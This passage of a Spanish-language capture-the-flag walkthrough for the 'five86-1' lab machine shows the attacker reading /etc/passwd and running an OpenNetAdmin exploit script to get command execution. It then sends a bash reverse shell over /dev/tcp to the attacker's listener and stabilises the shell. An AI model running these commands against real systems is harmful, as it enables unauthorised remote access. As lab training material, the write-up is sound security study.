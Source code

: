 Estos son los usuarios con una `Bash`

```bash
$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
moss:x:1001:1001:Maurice Moss:/home/moss:/bin/bash
roy:x:1002:1002:Roy Trenneman:/home/roy:/bin/bash
jen:x:1003:1003:Jen Barber:/home/jen:/bin/bash
richmond:x:1004:1004:Richmond Avenal:/home/richmond:/bin/bash
douglas:x:1005:1005:Douglas Reynholm:/home/douglas:/bin/bash
```

Vamos a usar `rlwrap` para poder hacer `ctrl+l` y demas 

```bash
❯ rlwrap ./OpenNetAdmin.sh http://192.168.1.102/ona/
whoami
www-data
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

Vamos a enviarnos una reverse shell 

```bash
❯ rlwrap ./OpenNetAdmin.sh http://192.168.1.102/ona/
whoami
www-data
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash -c "bash -i >%26 /dev/tcp/192.168.1.94/443 0>%261"
```

## Shell como www-data

Y resibimos la shell

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.1.94] from (UNKNOWN) [192.168.1.102] 59352
bash: cannot set terminal process group (650): Inappropriate ioctl for device
bash: no job control in this shell
www-data@five86-1:/opt/ona/www$ 
```

Vamos a hacer un tratamiento de la `tty`

```bash
www-data@five86-1:/opt/ona/www$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@five86-1:/opt/ona/www$ ^Z
zsh: suspended  nc -nlvp 443
```
